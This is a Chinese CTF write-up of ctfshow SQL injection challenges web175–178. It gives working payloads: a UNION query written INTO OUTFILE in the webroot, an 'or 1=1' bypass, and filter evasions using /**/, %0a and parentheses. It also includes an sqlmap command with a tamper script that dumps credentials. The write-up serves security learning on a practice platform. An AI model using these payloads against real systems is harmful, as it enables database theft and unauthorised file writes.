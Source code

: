 ```sql
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```
返回结果中把ASCII值为0-127的字符都过滤了，也就是大部分字符都不允许输出了，其实用174的方法也是可以做的，但是需要替换的字符有点多，所以考虑它既然不让在当前页面回显，就让它换个地方输出，所以构造payload：1'union select username,password from ctfshow_user5 where username='flag' into outfile '/var/www/html/1.txt' -- -
将执行结果输出到1.txt中，然后访问1.txt即可看到flag
## web176（开始过滤）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
不知道过滤了啥，应该是过滤了联合查询，它说代码过于简单，直接万能密码试一下：
payload：1' or 1=1-- -
成功回显全部数据，并且没有对输出进行过滤，直接拿到flag
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638881937908-4cefa04f-a958-4a33-9606-bb5cf43fab72.png)

## web177（空格绕过 space2comment.py）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
经过测试发现1'or 1=1 -- -无回显，而1'or/**/1=1%23就有回显，猜想是过滤了空格，所以用注释符绕过空格，%23是注释符#的url编码，所以最终payload：1'union/**/select/**/id,username,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638882492219-ab00f26e-130b-4dfc-bd98-1658b72ae020.png)
手工注入完了尝试一下sqlmap一把梭（请大家不要直接一把梭，建议在学习过程中先手注，掌握了原理后再去使用工具)，sqlmap有自带过滤空格的脚本：space2comment.py，将空格替换为/**/
命令：sqlmap -r sql.txt --tamper "space2comment.py" -D ctfshow_web -T ctfshow_user -C password --dump
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1638882904724-16c48e53-c710-4da1-b6c2-104ad35fc402.png)
结果也是一样的，除了/**/绕过空格外，还有()，%0a，%0c等等

## web178（空格绕过 space2hash.py）
```sql
//拼接sql语句查找指定ID用户
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";

//对传入的参数进行了过滤
  function waf($str){
   //代码过于简单，不宜展示
  }
```
这个题我刚开始在测过滤的时候就直接做出来了，使用1'or(1)%23使条件永真，然后就能看到flag
这样能做出来是因为过滤了/**/而没有过滤()，准确说是过滤了*，所以正常做的话，用其他姿势代替/**/
payload：1'union%0aselect%0aid,username,password%0afrom%0actfshow_user%0awhere%0ausername='flag'%23